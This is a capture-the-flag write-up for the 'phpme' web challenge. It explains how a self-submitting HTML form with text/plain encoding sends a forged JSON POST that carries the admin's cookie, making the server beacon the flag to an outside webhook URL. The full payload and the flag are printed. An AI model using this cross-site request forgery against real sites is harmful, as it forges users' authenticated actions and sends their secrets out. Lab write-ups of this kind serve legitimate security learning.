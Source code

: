 # phpme

Web, 469 points (nice), 64 solves

We're given the following code (with some less relevant parts removed):

```php
<?php
if ($_SERVER['REQUEST_METHOD'] === 'POST') {
    if(isset($_COOKIE['secret']) && $_COOKIE['secret'] === $secret) {
        // https://stackoverflow.com/a/7084677
        $body = file_get_contents('php://input');
        if(isJSON($body) && is_object(json_decode($body))) {
            $json = json_decode($body, true);
            if(isset($json["yep"]) && $json["yep"] === "yep yep yep" && isset($json["url"])) {
                echo "<script>\n";
                echo "    let url = '" . htmlspecialchars($json["url"]) . "';\n";
                echo "    navigator.sendBeacon(url, '" . htmlspecialchars($flag) . "');\n";
                echo "</script>\n";
            } else {
                echo "nope :)";
            }
        } else {
            echo "not json bro";
        }
    } else {
        echo "ur not admin!!!";
    }
} else {
    show_source(__FILE__);
}
?>
```

We're also given an admin bot which presumably visits any URL we give it.



One of the major challenges is the server requires a POST request, while the admin bot sends a GET request to the URL we give it (you can verify this using a webhook). It's clear we will need to submit a link to a website we control. How can we send POST requests?

Well, we can use the JavaScript `fetch` method. However, this fails because of browser restrictions called [Same origin policy (SOP)](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy). This means that when we use `fetch` (or any other JavaScript method) to send HTTP requests, we cannot access the response body (which contains the flag).

Alternatively, we can use forms, which are exempt from the SOP, since forms are not JavaScript. However, we come up against the requirement that we send a JSON body in our POST request. HTML forms usually send URL-encoded form data, not JSON. For example, for a form like

```html
<form action="https://example.com" method="POST">
    <input name="hello" value="world">
    <input type="submit">
</form>
```

would send a POST request when submitted, with body

```
hello=world
```

which is clearly not JSON. However, we can manipulate the name and value of the form inputs to make something that looks like JSON.

```html
<form action="https://example.com" method="POST">
<input
    name='{"hello":"'
    value='world"}'>
<input type='submit'>
</form>
```

We would expect this to produce

```:"
{"hello":"=world"}
```

which is valid JSON, but it actually produces

```
%7B%22hello%22%3A%22=world%22%7D
```

because form data is URL encoded by default.

We can instruct browsers to disable URL encoding by adding the `enctype='text/plain'` attribute in the form.

Ok, so we've found out how to POST JSON using a HTML form. How do we get the flag? We're in luck here, because the server sends a response that contains code to send the flag to any URL we want. When the form is submitted, the browser renders the response body and executes any JavaScript code in the response body. Thus, it sends the flag to a webhook, where we are listening.

The final payload is

```html
<body>
 
<form id="f" enctype='text/plain' action="https://phpme.be.ax/" method="POST">
<input
    name='{"yesp":"'
    value='a","yep":"yep yep yep","url":"https://webhook.site/31d1e4a0-1abe-4fe8-8dd9-b7fedf6387db/"}'>
<input type="submit">
</form>
<script>f.submit()</script>
</body>
```

And the flag is 

`corctf{ok_h0pe_y0u_enj0yed_the_1_php_ch4ll_1n_th1s_CTF!!!}`



Notes: This wouldn't usually work unless the cookie was set with `SameSite=None; Secure` which is why the site must be hosted on HTTPS. Read more about SameSite cookies and how they prevent CSRF attacks [here](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite).

